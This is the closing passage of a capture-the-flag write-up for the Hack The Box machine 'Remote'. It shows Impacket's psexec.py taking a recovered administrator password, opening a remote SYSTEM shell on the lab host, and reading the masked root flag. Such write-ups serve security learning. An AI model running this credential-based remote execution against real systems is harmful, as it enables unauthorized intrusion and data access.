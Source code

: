 # root.txt

With `!R3m0te!`, lets check if we can get into the `Administrator`'s account.

{% highlight bash %}
$ python psexec.py 'Administrator:!R3m0te!@remote.htb'
Impacket v0.9.22.dev1+20200713.100928.1e84ad60 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on remote.htb.....
[*] Found writable share ADMIN$
[*] Uploading file FNFPcETB.exe
[*] Opening SVCManager on remote.htb.....
[*] Creating service xGXs on remote.htb.....
[*] Starting service xGXs.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
baceXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}


## Rooted ! Thank you for reading and look forward for more writeups and articles !
